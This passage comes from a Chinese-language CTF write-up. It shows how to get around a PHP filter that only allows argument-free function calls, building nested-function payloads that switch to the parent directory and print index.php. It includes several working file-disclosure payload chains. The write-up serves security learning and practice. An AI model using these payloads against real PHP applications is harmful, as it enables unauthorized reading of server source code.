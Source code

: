 `next()` 函数来使数组指针后移，使其指向 `..`，即上一层目录。然后就可以套一层chdir()来切换当前目录了。

```php
chdir(next(scandir(chr(ord(chr(time()))))))
```

切换到上层目录后，即可开始读取 index.php 的内容。首先显示选取到 index.php 这个文件，和上面的方法一样，用 time() 以及 chr() 构造出字符.，然后用 scandir() 来读取目录下的文件内容：

```php
array(4) {
  [0]=> string(1) "."
  [1]=> string(2) ".."
  [2]=> string(4) "code"
  [3]=> string(9) "index.php"
}
```
注意这里返回数组中，是按照文件名首字母的顺序来排序的，因此 index.php 会在最后一个，用 end() 函数来获取数组的最后一个元素，即取到了index.php。

之后使用 file() 函数来读取文件内容。要注意的是，PHP 的很多文件操作函数返回或入参是文件句柄，这在本题中是无法使用的。file() 函数的返回值是数组，而 echo() 和 print() 函数无法输出数组的内容，这里我想到了使用 PHP 序列化函数 `serialize()` 来将数组的值序列化为字符串后输出。

```php
echo(serialize(file(end(scandir(chr(ord(chr(time()))))))))
```

最终 payload:

```php
echo(serialize(file(end(scandir(chr(ord(chr(time(chdir(next(scandir(chr(ord(chr(time())))))))))))))));
```

### phpversion()

![](/assets/images/move/2019-11-25-10-04-13.png)

构造出 `.` 即可扫描当前目录：

```php
var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))));
```

之后就是使用 chdir 函数进行跳到上一级目录，但是跳完还有一个问题，就是该怎么再次获取一个 `.` 出来，chdir 函数的返回值是布尔值，那么之后就将布尔值 `True` 作为参数放在 fuzzer 中看能得到什么结果，最后 fuzz 轮次不一样时发现 time 函数返回的结果也不一样，随后查了一下手册，便意识到可以使用这种方式来进行构造一个 46 出来，所以构造出如下 payload:

```php
localtime(time(1))
```

最终 payload:

```php
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))))))))))))));
```
